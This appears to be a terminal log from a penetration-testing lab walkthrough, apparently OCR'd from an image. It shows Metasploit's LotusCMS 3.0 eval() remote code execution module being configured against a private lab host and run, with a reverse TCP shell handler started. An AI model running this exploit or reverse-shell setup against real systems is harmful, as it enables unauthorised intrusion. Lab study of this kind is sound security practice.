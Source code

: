 ```bash
msf5 > use exploit/multi/http/lcms_php_exec 
msf5 exploit(multi/http/lcms_php_exec) > info

       Name: LotusCMS 3.0 eval() Remote Command Execution
     Module: exploit/multi/http/lcms_php_exec
   Platform: PHP
       Arch: php
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2011-03-03

Provided by:
  dflah_ <dflah_@alligatorteam.org>
  sherl0ck_ <sherl0ck_@alligatorteam.org>
  sinn3r <sinn3r@metasploit.com>

Available targets:
  Id  Name
  --  ----
  0   Automatic LotusCMS 3.0

Check supported:
  Yes

Basic options:
  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                    yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
  RPORT    80               yes       The target port (TCP)
  SSL      false            no        Negotiate SSL/TLS for outgoing connections
  URI      /lcms/           yes       URI
  VHOST                     no        HTTP server virtual host

Payload information:
  Space: 4000
  Avoid: 1 characters

Description:
  This module exploits a vulnerability found in Lotus CMS 3.0's 
  Router() function. This is done by embedding PHP code in the 'page' 
  parameter, which will be passed to a eval call, therefore allowing 
  remote code execution. The module can either automatically pick up a 
  'page' parameter from the default page, or manually specify one in 
  the URI option. To use the automatic method, please supply the URI 
  with just a directory path, for example: "/lcms/". To manually 
  configure one, you may do: "/lcms/somepath/index.php?page=index"

References:
  https://cvedetails.com/cve/CVE-2011-0518/
  OSVDB (75095)
  http://secunia.com/secunia_research/2011-21/

msf5 exploit(multi/http/lcms_php_exec) > set URI /index.php
URI => /index.php
msf5 exploit(multi/http/lcms_php_exec) > set RHOSTS 10.0.0.204
RHOSTS => 10.0.0.204
msf5 exploit(multi/http/lcms_php_exec) > run

[*] Started reverse TCP handler on 10.0.0.168:4444 
[*] Using found page param: /index.php?page=index
```